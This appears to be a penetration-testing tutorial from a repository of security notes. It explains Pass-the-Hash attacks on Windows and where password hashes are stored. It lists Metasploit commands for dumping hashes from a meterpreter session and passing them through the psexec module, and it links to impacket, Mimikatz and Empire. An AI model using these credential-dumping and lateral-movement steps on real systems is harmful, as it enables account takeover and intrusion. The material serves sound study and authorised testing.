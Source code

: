 # PASS THE HASH

## What is Pass the hash?
A Pass-the-Hash (PtH) attack is a technique whereby an attacker captures a password hash (as opposed to the password characters) and then simply passes it through for authentication and potentially lateral access to other networked systems. The threat actor doesn’t need to decrypt the hash to obtain a plain text password. PtH attacks exploit the authentication protocol, as the passwords hash remains static for every session until the password is rotated. Attackers commonly obtain hashes by scraping a system’s active memory and other techniques.

While Pass-the-Hash (PtH) attacks can occur on Linux, Unix, and other platforms, they are most prevalent on Windows systems. In Windows, PtH exploits Single Sign-On (SS0) through NT Lan Manager (NTLM), Kerberos, and other authentication protocols. When a password is created in Windows, it is hashed and stored in the Security Accounts Manager (SAM), Local Security Authority Subsystem (LSASS) process memory, the Credential Manager (CredMan) store, a ntds.dit database in Active Directory, or elsewhere. So, when a user logs onto a Windows workstation or server, they essentially leave behind their password credentials.

If you’re in meterpreter shell you can run commands below

```run hashdump```

or smarthashdump like

```post/windows/gather/smart_hashdump```

Or you can search another technique in metasploit

```search hashdump```

or you can use PSEXEC module for attack
1. Get hashes within a meterpreter session
```run post/windows/gather/hashdump```

2. Now use the psexec module from metasploit
```use exploit/windows/smb/psexec```

3. Set all the required options and pass the hash with the following command
```set SMBPass [hash]``` and run the exploit.

**Example**
1. Here i have used [secretdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to get the hashes from the target machine.
![hashes](images/hashes.png)

2. Now pass the hash with [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)
![passthehash](images/last.png) 

**Other tools that can be used for performing Pass the hash attack**
1. [Empire](https://github.com/EmpireProject/Empire)
2. [Mimikatz](https://github.com/gentilkiwi/mimikatz)
3. [Pass the hash toolkit](https://www.kali.org/tutorials/pass-the-hash-toolkit-winexe-updates/)
4. [PSExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
